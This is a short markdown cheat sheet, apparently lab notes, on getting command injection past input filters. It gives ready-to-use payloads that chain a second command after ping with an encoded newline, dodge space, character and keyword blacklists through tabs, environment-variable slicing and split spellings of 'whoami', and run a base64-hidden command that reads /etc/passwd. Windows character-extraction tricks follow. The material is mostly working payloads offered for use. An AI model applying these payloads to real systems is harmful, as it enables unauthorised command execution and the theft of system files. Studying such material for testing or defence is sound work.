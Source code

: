 ### BASH OBFUSCATORS

Linux (Bashfuscator)<br>
Windows (DOSfuscation)

<hr>

### Use new-line instead of ; or &
#### Example: 
```bash
ping 0.0.0.0%0als
```
The `%0a` is an encodded `\n` that will execute the ls command afterwards

<hr>

### Use tabs instead of spaces (bypass spaces blacklist)
```bash
ping 0.0.0.0;ls  -l
```

<hr>

### Bypass some characters
#### Shift the character
```bash
echo $(tr '!-}' '"-~'<<<[) # this will result in \
```
#### Extract the character from a env variable
```bash
$(echo	${PATH:0:1})
```
#### words blacklist
```
wh$(echo "am")i # whoami
whoa$@mi # whoami
who"a"mi # whoami
$(tr "[0-9]" "\0"<<<"who420ami") # whoami
```

<hr>

### Cool commands
```bash
print # instead of echo
printenv # print all env variables
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==) # run b64 command
grep mysql <<< $(ls) # avoid using pipes |
```

<hr>

### WINDOWS ?

```cmd
C:\htb> echo %HOMEPATH:~6,-11%  # will result in \
PS C:\htb> $env:HOMEPATH[0] # will result in \
PS C:\htb> $env:PROGRAMFILES[10]
```
